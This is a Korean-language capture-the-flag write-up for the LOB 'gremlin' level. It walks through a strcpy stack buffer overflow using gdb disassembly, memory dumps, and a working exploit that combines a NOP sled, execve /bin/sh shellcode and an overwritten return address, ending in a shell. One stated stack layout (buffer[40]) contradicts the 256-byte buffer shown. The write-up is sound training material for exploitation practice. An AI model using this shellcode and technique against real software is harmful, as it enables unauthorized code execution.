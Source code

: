 Gate -> Gremlin

모든 LOB문제를 풀 때에는 bash2를 입력하여 bash를 bash2로 바꾸어 주어야 합니다. 버전이 낮아서 bash는 "\xff"를 "\x00"으로 인식을 하여 문제를 풀지 못합니다.


**gremlin.c**

```C
int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```

환경변수 말고 다른 방법을 이용하여 공격을 하겠습니다. buffer안에 쉘코드를 삽입한 후 ret에 buffer의 주소를 넣어주어서 공격을 하도록 하겠습니다.

```
[gate@localhost temp]$ gdb -q gremlin 
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
0x8048430 <main>:	push   %ebp
0x8048431 <main+1>:	mov    %ebp,%esp
0x8048433 <main+3>:	sub    %esp,0x100
0x8048439 <main+9>:	cmp    DWORD PTR [%ebp+8],1
0x804843d <main+13>:	jg     0x8048456 <main+38>
0x804843f <main+15>:	push   0x80484e0
0x8048444 <main+20>:	call   0x8048350 <printf>
0x8048449 <main+25>:	add    %esp,4
0x804844c <main+28>:	push   0
0x804844e <main+30>:	call   0x8048360 <exit>
0x8048453 <main+35>:	add    %esp,4
0x8048456 <main+38>:	mov    %eax,DWORD PTR [%ebp+12]
0x8048459 <main+41>:	add    %eax,4
0x804845c <main+44>:	mov    %edx,DWORD PTR [%eax]
0x804845e <main+46>:	push   %edx
0x804845f <main+47>:	lea    %eax,[%ebp-256]
0x8048465 <main+53>:	push   %eax
0x8048466 <main+54>:	call   0x8048370 <strcpy>
0x804846b <main+59>:	add    %esp,8
0x804846e <main+62>:	lea    %eax,[%ebp-256]
0x8048474 <main+68>:	push   %eax
0x8048475 <main+69>:	push   0x80484ec
0x804847a <main+74>:	call   0x8048350 <printf>
0x804847f <main+79>:	add    %esp,8
0x8048482 <main+82>:	leave  
0x8048483 <main+83>:	ret    
```

>>> buffer[40] + SFP[4] + RET[4]

```
(gdb) b *main+54
Breakpoint 1 at 0x8048466
(gdb) r `python -c 'print "\x90"*135 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" + "\x90"*100'`
Starting program: /home/gate/temp/gremlin `python -c 'print "\x90"*135 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" + "\x90"*100'`

Breakpoint 1, 0x8048466 in main ()
(gdb) x/1000x $esp
0xbffff930:	0xbffff938	0xbffffb99	0x00005a62	0x400081e6
~~~생략~~~
0xbffffb30:	0x000001f4	0x0000000e	0x000001f4	0x00000010
0xbffffb40:	0x0fabfbff	0x0000000f	0xbffffb7c	0x00000000
0xbffffb50:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffb60:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffb70:	0x00000000	0x00000000	0x00000000	0x36383669
0xbffffb80:	0x6f682f00	0x672f656d	0x2f657461	0x706d6574
0xbffffb90:	0x6572672f	0x6e696c6d	0x90909000	0x90909090
0xbffffba0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffbb0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffbc0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffbd0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffbe0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffbf0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffc00:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffc10:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffc20:	0x6850c031	0x68732f2f	0x69622f68	0x50e3896e
0xbffffc30:	0x31e18953	0xcd0bb0d2	0x90909080	0x90909090
0xbffffc40:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffc50:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffc60:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffc70:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffc80:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffc90:	0x90909090	0x90909090	0x90909090	0x454c0090
~~~ 생략 ~~~
```

strcpy 함수 부분에 브레이크를 걸고 nop 135개와 쉘코드를, 그 뒤에 다시 nop를 100개 넣어 주었습니다. 메모리를 보면서 저희는 버퍼의 주소를 알아 낼 수 있습니다. 만약 앞에 nop를 깔지 않으면 쉘코드의 시작 주소를 정확하게 입력을 해주어야만 공격이 성공하지만 RET에 앞부분 nop의 주소 중 아무거나 넣어주면 nop을 타고 쉘코드가 실행이 되면서 공격이 될 것 입니다.
단순히 메모리를 볼 때는 nop가 아니라 다른 것을 넣어주어도 되지만 공격을 할 때에 앞 부분은 무조건 nop를 깔아주어야 합니다.

```
[gate@localhost temp]$ ./gremlin `python -c 'print "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" + "\x90"*135 + "\xc0\xfb\xff\xbf"'`
```

```
[gate@localhost gate]$ ./gremlin `python -c 'print "\x90"*135 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" + "\x90"*100 + "\xb0\xfb\xff\xbf"'`
1󿿐h//shh/bin⏓󿲒°
               ̀°
bash$ my-pass
euid = 501
hello bof world
```
0xbffffbb0d의 주소로 공격하여 성공한 것을 볼 수 있습니다.<br>
환경변수로 공격을 하는 문제는 앞으로 더 있기때문에 다른 방법으로 1번 문제를 다시 풀어보았습니다.
